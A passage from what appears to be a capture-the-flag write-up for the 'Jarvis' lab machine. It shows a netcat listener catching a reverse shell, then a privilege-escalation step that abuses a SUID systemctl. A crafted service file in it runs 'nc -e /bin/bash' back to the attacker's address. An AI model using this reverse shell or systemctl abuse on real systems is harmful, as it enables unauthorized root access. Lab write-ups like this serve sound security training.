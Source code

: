 I now have a shell as `pepper`:

```
# nc -lvnp 5555
Ncat: Version 7.70 ( https://nmap.org/ncat )
Ncat: Listening on :::5555
Ncat: Listening on 0.0.0.0:5555
Ncat: Connection from 10.10.10.143.
Ncat: Connection from 10.10.10.143:38924.
id
uid=1000(pepper) gid=1000(pepper) groups=1000(pepper)
python -c 'import pty;pty.spawn("/bin/bash")'
pepper@jarvis:/var/www$ cd
cd
pepper@jarvis:~$ ls
ls
Web  user.txt
pepper@jarvis:~$ cat user.txt
2afa36c...
```

### Privesc

Looking at SUID binaries, the `systemctl` program stands out since it's not normally SUID:

```
pepper@jarvis:~$ find / -perm /4000 2>/dev/null
[...]
/bin/systemctl
[...]
```

The group has been changed to `pepper` so this is likely our next target:

```
pepper@jarvis:~$ ls -l /bin/systemctl
-rwsr-x--- 1 root pepper 174520 Feb 17 03:22 /bin/systemctl
```

Because we can run `systemctl` as root, we can register new services that get executed as whatever user we want. Getting root access is simple since all we need to do is register a new service that's spawn another reverse shell. I'll just create `/dev/shm/pwn.service`:

```
[Unit]
Description=Pwn service

[Service]
ExecStart=/bin/nc -e /bin/bash 10.10.14.5 7777

[Install]
WantedBy=multi-user.target
```

Then register the new service and start it:
